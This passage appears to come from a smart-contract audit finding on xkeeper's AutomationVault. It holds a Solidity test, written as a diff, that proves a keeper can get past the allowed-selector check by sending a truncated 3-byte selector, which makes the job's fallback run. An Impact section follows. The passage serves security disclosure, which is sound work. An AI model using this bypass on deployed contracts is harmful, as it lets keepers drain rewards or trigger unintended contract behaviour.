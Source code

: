```diff
+
   function setUp() public override {
     // AutomationVault setup
     CommonIntegrationTest.setUp();
@@ -32,6 +50,38 @@ contract IntegrationOpenRelay is CommonIntegrationTest {
     changePrank(bot);
   }
 
+  function test_POC() public {
+    // Start of setup
+    Job jobContract = new Job();
+
+    address[] memory _bots = new address[](1);
+    _bots[0] = bot;
+
+    bytes4[] memory _jobSelectors = new bytes4[](1);
+    // 0x8df82800 -> bytes4(keccak256(abi.encode("settle(uint256)")))
+    _jobSelectors[0] = bytes4(0x8df82800);
+
+    IAutomationVault.JobData[] memory _jobsData = new IAutomationVault.JobData[](1);
+    _jobsData[0] = IAutomationVault.JobData(address(jobContract), _jobSelectors);
+
+    changePrank(owner);
+    automationVault.modifyRelay(address(openRelay), _bots, _jobsData);
+    address(automationVault).call{value: 100 ether}('');
+
+    changePrank(bot);
+    // End of setup
+
+    IAutomationVault.ExecData[] memory _execData = new IAutomationVault.ExecData[](1);
+    // Malformed selector to trigger the execution of the fallback method;
+    bytes3 selector = bytes3(0x8df828);
+    _execData[0] = IAutomationVault.ExecData(address(jobContract), abi.encodePacked(selector));
+
+    // Check that the fallback method was executed instead of the settle(uint256) function.
+    vm.expectEmit(address(jobContract));
+    emit Fallback();
+    openRelay.exec(automationVault, _execData, bot);
+  }re--
+
```

## Impact
For jobs that match both conditions described above, the keeper can execute the `fallback` method despite it not being listed in the allowed selectors. This enables the keeper to farm rewards from that job or potentially trigger unintended side-effects from the `fallback` function.

## Code Snippet
https://github.com/sherlock-audit/2024-04-xkeeper/blob/main/xkeeper-core/solidity/contracts/core/AutomationVault.sol#L413-L418
